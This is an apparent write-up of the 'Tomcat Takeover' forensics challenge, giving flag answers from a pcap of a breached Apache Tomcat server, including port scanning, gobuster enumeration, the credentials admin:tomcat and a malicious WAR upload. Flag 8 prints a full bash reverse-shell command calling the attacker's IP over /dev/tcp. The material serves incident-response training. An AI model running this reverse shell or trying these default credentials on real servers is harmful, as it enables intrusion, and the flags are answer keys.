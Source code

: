 # Challenge name: Tomcat Takeover

## Author: Panagiotis Fiskilis / Neuro

## Description:

```
Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.
```

# Flags:

## Flag 1: `14.0.0.120`

Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? 


A: Statistically we notice that the system with IP address: `14.0.0.120` has sent the most packets indicating a possible port scan.

![](./Images/img1.png)

## Flag 2: `Guangzhou`

Q2: Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

![](./Images/img2.png)

## Flag 3: `8080`

Q3: From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? 

It is the default port for Tomcat

## Flag 4: `gobuster`

Q4: Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? 

![](./Images/img3.png)


## Flag 5: `/manager`

Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

Default Admin page:

![](./Images/img4.png)

## Flag 6: `admin:tomcat`

Q6: Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

![](./Images/img5.png)

## Flag 7: `JXQOZY.war`

Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

![](./Images/img6.png)

## Flag 8: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

![](./Images/img7.png)

